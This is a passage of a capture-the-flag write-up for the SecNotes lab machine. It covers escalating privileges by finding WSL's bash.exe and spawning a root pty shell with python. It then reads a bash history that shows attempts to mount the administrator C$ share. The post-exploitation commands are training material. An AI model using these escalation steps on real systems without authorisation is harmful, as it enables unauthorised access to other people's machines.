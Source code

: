 ```
L�F w������V�   �v(���  ��9P�O� �:i�+00�/C:\V1�LIWindows@       ﾋL���LI.h���&WindowsZ1�L<System32B      ﾋL���L<.p�k�System32▒Z2��LP� bash.exeB  ﾋL<��LU.�Y����bash.exe▒K-JںݜC:\Windows\System32\bash.exe"..\..\..\Windows\System32\bash.exeC:\Windows\System32�%�
                                                                                       �wN�▒�]N�D.��Q���`�Xsecnotesx�<sAA��㍧�o�:u��'�/�x�<sAA��㍧�o�:u��'�/�=  �Y1SPS�0��C�G����sf"=dSystem32 (C:\Windows)�1SPS��XF�L8C���&�m�q/S-1-5-21-1791094074-1363918840-4199337083-1002�1SPS0�%��G▒��`����%
        bash.exe@������
                       �)
                         Application@v(���      �i1SPS�jc(=�����O�▒�MC:\Windows\System32\bash.exe91SPS�mD��pH�H@.�=x�hH�(�bP

```

There are some interesting stuff , but `bash.lnk` that’s weird because we are on a windows machine.

I can search for `bash.exe`, and find it:

```cmd
where /R c:\ bash.exe
```

```
C:\inetpub\new-site>where /R c:\ bash.exe
where /R c:\ bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe

```

Now it’s just a matter of running it, and using `python` to get a interactive pty, just like on a Linux host:

```cmd
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```
```bash
id
python -c 'import pty;pty.spawn("/bin/bash")'
ls -al
```

![[secnotes-20.png]]

We will get a stable shell with python pty , We see that we are root on this subsystem. And we check contents and find bash history file.

```bash
cat .bash_history
```

```
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
```